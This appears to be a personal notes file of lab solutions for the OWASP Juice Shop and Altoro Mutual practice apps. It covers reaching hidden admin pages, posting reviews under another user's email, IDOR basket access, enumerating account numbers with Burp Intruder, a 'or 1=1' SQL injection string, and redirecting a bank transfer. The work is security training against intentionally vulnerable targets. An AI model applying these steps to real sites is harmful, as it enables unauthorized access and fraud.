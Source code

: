 # Access Controls

## Access the administration section of the store.
Login and manually try URLS
URL = http://localhost:3000/#/administration
Or 
view the juice-shop.min.js and find the /administration route in the js



## Get rid of all 5-star customer feedback.
Delete five-stars from the adminstration page

## Post some feedback in another users name.	
Intercept a review request http://localhost:3000/rest/product/23/reviews
Modify json with different users email `{"message":"Fake Review","author":"morty@juice-sh.op"}`
*The score-board check isn't working*


## Change the href of the link within the O-Saft product description into http://kimminich.de.
*come back*


## IDOR Solutions

## Access someone else's basket. JuiceShop
Add items to basket
Intercept Request to view basket 
http://localhost:3000/rest/basket/4
IDOR change number to 1
Other users basket is displayed

## Account History http://demo.testfire.net/bank/account.aspx
intruder
```
POST /bank/account.aspx HTTP/1.1
Host: demo.testfire.net
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3488.0 Safari/537.36 autochrome/red
Origin: http://demo.testfire.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://demo.testfire.net/bank/main.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: amSessionId=15463717023; ASP.NET_SessionId=sek2c5bdxjyg4h45r5io3h45; amUserInfo=UserName=anNtaXRo&Password=RGVtbzEyMzQ=; amUserId=100116014; amCreditOffer=CardType=Gold&Limit=10000&Interest=7.9
Connection: close

listAccounts=10011601§40§

```
* Sniper
* Payload Type Number
* from 40 to 99
* sort by length


### Make jsmith filthy rich
* in the the transaction page do `1 or 1 =1;-- ` to list all transactions
* accounts 20 and 21 are always sending money back and forth
* make a transfer but intercept with burp and send money from account 20 to jsmiths account. 

